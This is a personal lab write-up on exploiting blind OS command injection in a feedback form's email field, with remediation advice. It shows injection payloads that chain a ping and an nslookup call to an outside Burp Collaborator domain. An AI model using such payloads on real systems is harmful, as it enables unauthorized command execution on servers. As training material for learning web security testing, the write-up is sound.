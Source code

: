 ## 🧪 Lab: Blind OS Command Injection with Out-of-Band Interaction  
**Level**: Practitioner  
**Date**: June 20, 2025  
**Goal**: Exploit a blind OS command injection vulnerability by using out-of-band (OAST) interaction.

---

### 🧰 Tools  
- Burp Suite Pro (Collaborator client)  
- Repeater  
- OAST-based payloads (`nslookup`)  

---

### 🧭 Steps

1. Intercept the request to the feedback form:
POST /feedback/submit

2. Send the request to **Repeater**.

3. Identify the injectable parameter (in this lab, `email` field):

```
email=a@gmail.com
```


4. Test a simple injection to confirm command execution (no output is expected):
```
email=a@gmail.com & ping -c 5 127.0.0.1 #
```

🔁 This has **no output**, so we suspect a blind command injection.

5. Move to **Out-of-Band testing**:
Use `nslookup` to make the server contact your **Burp Collaborator** domain.

6. Replace the email with this payload:
```
a%40gmail.com& nslookup d5jziuy7pyb6gzzy4kz1wyv60x6pufi4.oastify.com #
```

7. Switch to the **Burp Collaborator** tab and click "**Poll now**".

✅ If the DNS interaction appears in the Collaborator logs, it confirms the payload was executed successfully by the server.

---

### 💣 Payload Used

```
a%40gmail.com& nslookup d5jziuy7pyb6gzzy4kz1wyv60x6pufi4.oastify.com #
```

---

### 💡 Observations

- This is a **blind injection** → No direct reflection or error on the page.
- `nslookup` is used to **force the server** to do a DNS lookup to an attacker-controlled domain.
- Seeing the DNS request in **Burp Collaborator** = Proof of code execution.
- `&` is used to chain commands. `#` comments out the rest of the original command to avoid breaking the injection.

---

### 🔒 Remediation

- Avoid passing user input to shell commands.
- Use secure system call libraries or APIs.
- Validate and sanitize all input strictly (especially headers, query params, form fields).
- Disable unnecessary network access on backend servers (e.g., block outbound DNS when not needed).

---

### 🧠 Notes to Self

- OAST can be confusing but is super powerful.
- No reflection ≠ No vulnerability.
- Collaborator confirms what we **can’t see in the browser**.
- Keep practicing — these are real-world exploit skills.